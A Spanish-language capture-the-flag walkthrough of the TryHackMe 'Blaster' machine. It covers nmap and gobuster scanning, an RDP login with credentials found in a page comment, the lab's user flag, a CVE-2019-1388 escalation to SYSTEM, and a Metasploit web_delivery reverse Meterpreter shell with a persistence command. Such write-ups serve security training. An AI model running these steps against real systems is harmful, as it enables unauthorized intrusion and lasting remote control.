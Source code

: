 # Guía de Explotación - TryHackMe Blaster

## 1. Reconocimiento

Comenzamos con el reconocimiento de la máquina objetivo mediante un escaneo de Nmap. Utilizamos el siguiente comando para identificar servicios y versiones:

```bash
nmap -Pn -sV -sC -T5 IP_MAQUINA_ATACADA
```

![Escaneo Nmap](./assets/image.png)

El escaneo revela los siguientes puertos abiertos:
- **80/TCP** (HTTP - Servidor Web IIS)
- **3389/TCP** (RDP - Escritorio Remoto)

Al acceder al puerto **80**, encontramos la página predeterminada de IIS.

![Página IIS](./assets/image-1.png)

### 2. Enumeración de directorios con Gobuster

Utilizamos `gobuster` para descubrir directorios ocultos en el servidor web:

```bash
gobuster dir -u http://IP_MAQUINA_ATACADA/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

![Resultado de Gobuster](./assets/image-6.png)

Uno de los directorios devueltos contiene una publicación con información potencialmente útil.

![Publicación encontrada](./assets/image-3.png)

Al hacer clic en la publicación "Ready Player One", encontramos un comentario en el código fuente con una posible credencial.

![Publicación - Ready Player One](./assets/image-4.png)

```txt
parzival
```

![Credencial descubierta](./assets/image-5.png)

### 3. Acceso mediante RDP

Usamos **Remmina** para conectarnos a la máquina víctima con las credenciales encontradas:

```txt
Usuario: Wade
Contraseña: parzival
```

Una vez dentro, accedemos al archivo `user.txt` y encontramos la primera flag:

```txt
THM{HACK_PLAYER_ONE}
```

![Flag Usuario](./assets/image-8.png)
![Archivo Flag](./assets/image-9.png)

---

## 4. Escalada de Privilegios

En el escritorio de **Wade**, encontramos un archivo llamado `hhupd`.

Haciendo una pequeña busquea por Google, vemos que es un archivo de Microsoft, el cual tiene una vulnerabilidad la cual se puede explotar con el CVE 'CVE-2019-1388'. Podemos verlo aqui. [Explotacion](https://github.com/jas502n/CVE-2019-1388)

![Archivo hhupd](./assets/image-10.png)

Al ejecutarlo, nos solicita la contraseña del Administrador, la cual no conocemos. Sin embargo, si hacemos clic en `Show more details`, se muestra información adicional.

![Detalles del archivo](./assets/image-11.png)

Al examinar el certificado, encontramos la opción `VeriSign Commercial Software Publishers CA`.

![Certificado](./assets/image-12.png)

Al hacer clic, se abre una página web que podemos guardar en la máquina.

![Guardar página](./assets/image-13.png)

Al elegir `Guardar como`, seleccionamos `cmd` en el desplegable.

![Ejecutar CMD](image-14.png)

Esto nos otorga acceso a una **CMD con privilegios de SYSTEM** (`NT AUTHORITY\SYSTEM`).

![Shell SYSTEM](./assets/image-15.png)

Ahora podemos acceder al escritorio del Administrador y leer el archivo `root.txt`.

```bash
cd \Users\Administrator\Desktop
cat root.txt
```

![Archivo root.txt](./assets/image-17.png)

---

## 5. Post-Explotación y Persistencia

Ahora configuramos un shell inverso utilizando **Metasploit** con el módulo `exploit/multi/script/web_delivery`.

```bash
msfconsole
use exploit/multi/script/web_delivery
show options
```

Configuramos los valores adecuados:

```bash
set target 2
set lhost NUESTRA_IP
set lport 3389
set payload windows/meterpreter/reverse_http
```

![Configuración de Metasploit](./assets/image-18.png)

Ejecutamos el exploit:

```bash
run -j
```

![Ejecución del exploit](./assets/image-21.png)

Ejecutamos el comando en la máquina comprometida para recibir la conexión inversa:

![Ejecución en la máquina víctima](./assets/image-20.png)

Ahora tenemos acceso a una sesión **Meterpreter** en la máquina comprometida.

![Sesión Meterpreter](./assets/image-22.png)

Para asegurar persistencia en el sistema, ejecutamos:

```bash
run persistence -X
```

Esto nos garantiza acceso remoto continuo en caso de reinicio del sistema.

¡Máquina comprometida con éxito!